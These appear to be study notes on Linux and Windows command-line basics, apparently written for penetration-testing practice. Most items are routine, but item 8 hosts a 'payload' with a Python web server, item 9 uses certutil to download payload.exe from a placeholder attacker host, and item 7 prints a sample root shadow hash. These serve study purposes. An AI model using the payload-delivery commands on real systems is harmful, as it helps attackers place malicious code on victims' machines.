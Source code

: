 1) What is that command ? 
- use ``whatis`` command to find out - ``whatis nslookup``

2) How to open host file in Linux ?
```
sudo nano /etc/hosts
```

3) What is a host file ?
- It contains the list of hostnames and Domain names and their corresponding IP addresses. 
- U can make changes in the host file to map an IP address to a local domain. (Cannot be accessed by the internet). 
```
192.168.0.1 router.admin
```

4) Extract files using `gzip` and `tar`
```
gzip -d file.gz
```

```
tar -xf file.tar.gz
```

5) What's `curl` ?
`curl`: This is a command-line tool used to transfer data to or from a server using various network protocols, such as HTTP, HTTPS, FTP, etc.

6) What's `more` ?
`more` prints one page at a time in the terminal if the output text is too long. For example, we can pipe the curl command through `more` to show the result in a more concise manner. 

```
curl <ip> | more
```

7) What is salted password hashing ?

A "salt" in the context of password hashing is a random value that is generated and combined with a user's password before hashing it. The primary purpose of a salt is to add uniqueness and complexity to the password hashing process.

```
root:$6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/:17861:0:99999:7:::
```

- In this example, `eo0I5IAu` is the unique salt.
- `$6$` prefix indicates the hashing algorithm, in this case SHA-512.

8) How to host a Python `http` server to host a payload ?

```
python -m SimpleHTTPServer 80
```

9) How to download a file from a remote server using CMD on Windows ?

```
certutil -urlcache -f http://<lhost>/payload.exe payload.exe
```

10) How to count the number of lines in the output of a command ?
```
<command-of-a-tool> | wc -l
```

11) How to copy a file from a different location to the current working directory ?
```
cp /path/to/file . 
```

12) How to access multiple terminals in CLI interface ?
	- We can access multiple terminals if we are only provided with a single terminal using `tmux` utility. 
	- We can open new terminals using `ctrl+b+c`.  
	- We can switch back to the previous terminal using `ctrl+b+0`. 
	- We can type `exit` to exit out of a terminal. 
	- To scroll up and down in a `tmux` terminal, we need to use `ctrl+b` with the page up and down keys in our keyboard. Once done scrolling, press `q` key to exit out of scrolling mode. 
